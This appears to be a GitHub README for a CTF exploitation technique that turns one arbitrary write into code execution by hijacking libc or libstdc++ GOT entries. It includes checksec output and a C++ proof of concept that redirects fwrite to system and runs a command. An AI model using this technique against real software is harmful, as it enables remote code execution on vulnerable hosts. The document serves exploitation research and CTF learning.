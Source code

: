 # Libc-GOT-Hijacking 

Transform arbitrary write to RCE.
Libc makes it full RELRO at 2.39 so this skill doesn't work for glibc-2.39+.
However, it works for the libstdc++ on the latest Ubuntu LTS.

This is a userspace attacking skill: If you can write arbitrary memory space, you can use this method to execute arbitrary code. 

> You only need to know the base address of Glibc

# Update (Dec 17th., 2024)

While exploiting a CTF challenge, I found `libstdc++` is a juicy target of this technique. It's still usable on the latest LTS-ubuntu(24.04).

```sh
[14:26:12] n132 :: xps  ➜  ~/Downloads/FL_Support_Center » pwn checksec /lib/x86_64-linux-gnu/libstdc++.so.6
[*] '/lib/x86_64-linux-gnu/libstdc++.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

A simple way to get a shell is just to modify `fread/fwrite` got to `system` and `cin/cout` the string `/bin/sh`. But if ROP is what we want, we can do libc-got-hijacking (ROP over GOT) (even though it's unnecessary, it's a general solution!) 

Here is a demo:
```c
[18:34:04] n132 :: xps  ➜  ~/demo » cat ./rce.cpp && g++ ./rce.cpp -o ./rce && echo "id" | ./rce
#include <iostream>
int main(){
    // Hijack fwrite@got[plt] to system
    // cout gonna run arbitrary commands
    int num = 915;
    std::string str;
    size_t libc_base = (size_t)system-0x00058740;
    size_t * add_of_del_got = (size_t *)(libc_base + 0x277000 + 0x400000 + num*8);
    * add_of_del_got = (size_t )system;
    std::cin >> str;
    std::cout << str << std::endl;
}
uid=1000(n132) gid=1000(n132) groups=1000(n132),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),984(docker)
```

## glibc [2.36,2.38]

Compared to glibc<=2.35 there is mitigation implemented, which forbids the methods for the old library. However, we designed a method to bypass it and execute arbitrary code by 
once arbitrary write on Glibc's GOT table. This method performs Return Oriented Programming (ROP) attack on the Global Offset Table (GOT). 

![AttackFlow](./Img/AttackFlow.png)


You can find details, templates, demos, and everything you want in: [Details][0] and [Templates][3]


## glibc [unk,2.35]


I learned the original method from [Sammy Hajhamid][2] also the methods for glibc <=2.35 are inspired by his work.

Based on his work, We designed a method to execute arbitrary code by once arbitrary write on Glibc's GOT table. The method uses `PLT_0` to push `libc_exe_address` to the stack and then use `POP RSP, RET` to execute our `ROPchain`.

You can find details, templates, demos, and everything you want in: [Details][1] and [Templates][4]

# Acknowledgments

- Great job [@swing][5] on the impressive work with glibc >2.35!

- Appreciate the original work done by @pepsipu.

# Reference link
- [@pepsipu's Method][2]


[0]: ./Post/README.md
[1]: ./Pre/README.md
[2]: https://hackmd.io/@pepsipu/SyqPbk94a
[3]: ./Post/one_punch.py
[4]: ./Pre/templates.md
[5]: https://bestwing.me/
